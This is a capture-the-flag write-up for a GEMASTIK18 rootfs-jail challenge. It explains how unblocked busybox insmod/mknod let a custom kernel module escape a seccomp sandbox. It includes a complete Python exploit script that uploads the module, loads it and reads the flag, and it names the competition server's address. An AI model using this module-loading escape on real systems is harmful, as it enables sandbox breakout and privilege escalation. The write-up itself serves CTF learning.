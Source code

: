 ![](attachments/Pasted%20image%2020250831013214.png)
![](attachments/Pasted%20image%2020250830185848.png)
In the zip file given, there is a linux kernel image, an executable, a C program source code, a CPIO rootfs file, and a run script.
![](attachments/Pasted%20image%2020250831012426.png)
The run script itself looks like a regular qemu run command, but I prepended `#!/bin/sh` to it so I can execute it properly.
![](attachments/Pasted%20image%2020250831011131.png)
![](attachments/Pasted%20image%2020250831011307.png)
Decompressing the CPIO rootfs reveals a linux root directory, with an unusual folder named 'penjara' containing `busybox` and `sh` binaries, which can be used to solve the challenge.
The flag seems to be located at `/root/flag.txt`.
Obviously, I can see that this is going to be one of those rootfs jail challenges.
![](attachments/Pasted%20image%2020250831005338.png)
`main.c` clarifies this, the program basically adds seccomp rules to block the commands that can be used/abused to escape the rootfs jail. I assume `main` is invoked on init. 
I thought this challenge is going to be impossible. But, however...
```
# busybox
BusyBox v1.35.0 (2023-12-25 17:04:41 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	[, [[, addgroup, adduser, ar, arch, arp, arping, ascii, ash, awk,
	base32, base64, basename, bc, blkid, bunzip2, bzcat, cat, chattr,
	chgrp, chmod, chown, chroot, chrt, chvt, cksum, clear, cmp, cp, cpio,
	crc32, crond, crontab, cttyhack, cut, date, dc, dd, deallocvt,
	delgroup, deluser, devmem, df, diff, dirname, dmesg, dnsd,
	dnsdomainname, dos2unix, du, dumpkmap, echo, egrep, eject, env,
	ether-wake, expr, factor, fallocate, false, fbset, fdflush, fdformat,
	fdisk, fgrep, find, flock, fold, free, freeramdisk, fsck, fsfreeze,
	fstrim, fuser, getopt, getty, grep, gunzip, gzip, halt, hdparm, head,
	hexdump, hexedit, hostid, hostname, hwclock, i2cdetect, i2cdump,
	i2cget, i2cset, i2ctransfer, id, ifconfig, ifdown, ifup, inetd, init,
	insmod, install, ip, ipaddr, ipcrm, ipcs, iplink, ipneigh, iproute,
	iprule, iptunnel, kill, killall, killall5, klogd, last, less, link,
	linux32, linux64, linuxrc, ln, loadfont, loadkmap, logger, login,
	logname, losetup, ls, lsattr, lsmod, lsof, lspci, lsscsi, lsusb, lzcat,
	lzma, lzopcat, makedevs, md5sum, mdev, mesg, microcom, mim, mkdir,
	mkdosfs, mke2fs, mkfifo, mknod, mkpasswd, mkswap, mktemp, modprobe,
	more, mount, mountpoint, mt, mv, nameif, netstat, nice, nl, nohup,
	nologin, nproc, nslookup, nuke, od, openvt, partprobe, passwd, paste,
	patch, pidof, ping, pipe_progress, pivot_root, poweroff, printenv,
	printf, ps, pwd, rdate, readlink, readprofile, realpath, reboot,
	renice, reset, resize, resume, rm, rmdir, rmmod, route, run-init,
	run-parts, runlevel, sed, seq, setarch, setconsole, setfattr,
	setkeycodes, setlogcons, setpriv, setserial, setsid, setuidgid, sh,
	sha1sum, sha256sum, sha3sum, sha512sum, shred, sleep, sort,
	start-stop-daemon, strings, stty, su, sulogin, svc, svok, swapoff,
	swapon, switch_root, sync, sysctl, syslogd, tail, tar, tc, tee, telnet,
	test, tftp, time, top, touch, tr, traceroute, true, truncate, ts, tty,
	ubirename, udhcpc, uevent, umount, uname, uniq, unix2dos, unlink,
	unlzma, unlzop, unxz, unzip, uptime, usleep, uudecode, uuencode,
	vconfig, vi, vlock, w, watch, watchdog, wc, wget, which, who, whoami,
	xargs, xxd, xz, xzcat, yes, zcat
```
`insmod` and `modprobe`, which are available as busybox functions, aren't explicitly blocked in the seccomp rules. I can use this to load kernel modules. 
After some digging, I found this: https://github.com/SECCON/SECCON2022_final_CTF/tree/main/jeopardy/pwnable/babyescape/solver/driver. I can modify the driver source code to something like this:
![](attachments/Pasted%20image%2020250831010336.png)
![](attachments/Pasted%20image%2020250831005945.png)
The running kernel version is `linux 6.16.0`, so I can just download the source code, compile it, and build the kernel module for that version of the linux kernel specifically.
![](attachments/Pasted%20image%2020250831010622.png)
After that, I can just run this script in the directory that contains the `run.sh` script, making sure that the compiled kernel driver, `pwn.ko` exists in the same directory:
```
import base64
import time
from ptrlib import *

def run(cmd):
    sock.sendlineafter("# ", cmd)

kernel = base64.b64encode(
    open("pwn.ko", "rb").read()
).decode()

sock = Process("./run.sh", cwd=".")

# Create kernel driver
for block in chunks(kernel, 1000):
    run(f'echo "{block}" >> b64')
run("busybox base64 -d b64 > pwn.ko")
run("busybox rm b64")

# Install kernel module
run("busybox insmod pwn.ko")
run("busybox mknod modpwn c 60 1")

# Invoke exploit
run("busybox cat modpwn")

# Get flag
time.sleep(1)
run("busybox cat /flag.txt")

# Drain and print all buffered output
while True:
    try:
        data = sock.recv(timeout=0.2)  # try to read with small timeout
        if not data:
            break
        print(data.decode(errors="ignore"), end="")
    except TimeoutError:
        break

# Then attach to interactive shell
sock.sh()
```
![](attachments/Pasted%20image%2020250831012323.png)
Yep, it works. Now I can use it on the remote server, using `sock = Socket("18.143.31.243", 9008)`
But since the connection was very bad at the time the competition was going and the machine didn't reset (someone also left their payload kek), I just did this:
![](attachments/roblox.png)
That's it. lol. The flag is: `GEMASTIK18{ingfokan_pemabaran_roblox_muncak_gunung}`
~~nevermind, pwn.ko is and has always been in the remote root dir, not fun.~~